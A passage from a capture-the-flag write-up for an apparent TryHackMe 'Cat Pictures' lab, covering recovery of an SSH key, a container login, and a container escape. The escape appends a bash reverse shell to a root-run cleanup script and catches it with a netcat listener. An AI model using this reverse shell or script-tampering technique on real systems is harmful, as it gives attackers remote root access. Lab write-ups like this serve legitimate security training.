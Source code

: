 ![IDA string 1](/assets/img/tryhackme/Catpictures/thm_catpictures_1.jpg)

This password should activate the following command and generate or display an SSH key:

![IDA path](/assets/img/tryhackme/Catpictures/thm_catpictures_2.jpg)

```bash
# /home/catlover/runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued!
# ls /home/catlover
  id_rsa
  runme
```

Now that I had a private key, I connected via SSH. From there I, was able to retrieve the first flag:
```bash
root@7546fa2336d6:/# cd root
root@7546fa2336d6:/root# ls
	flag.txt
root@7546fa2336d6:/root# cat flag.txt 
	[removed]
```

The hostname suggests that we are inside a Docker container. After some enumeration to break out of the container, I found a script called `clean.sh`:
```bash
root@7546fa2336d6:/opt/clean# ls -al
  total 16
  drwxr-xr-x 2 root root 4096 May  1  2021 .
  drwxrwxr-x 1 root root 4096 Mar 25  2021 ..
  -rw-r--r-- 1 root root   27 May  1  2021 clean.sh
root@7546fa2336d6:/opt/clean# cat clean.sh 
  #!/bin/bash

  rm -rf /tmp/*
```

As the name suggests, this appears to be a cleanup script that is likely executed by something outside the container. To exploit this, I added a reverse shell to the `clean.sh` script:
```bash
echo "bash -i >& /dev/tcp/[attackerip]/9005 0>&1" >> clean.sh
```

A few seconds later, my `netcat` listener received an incoming connection, and I was able to retrieve the final flag:
```bash
root@cat-pictures:~# ls         
  ls
  firewall
  root.txt
root@cat-pictures:~# cat root.txt
  cat root.txt
  Congrats!!!
  Here is your flag:

  [removed]
```

solved! :)
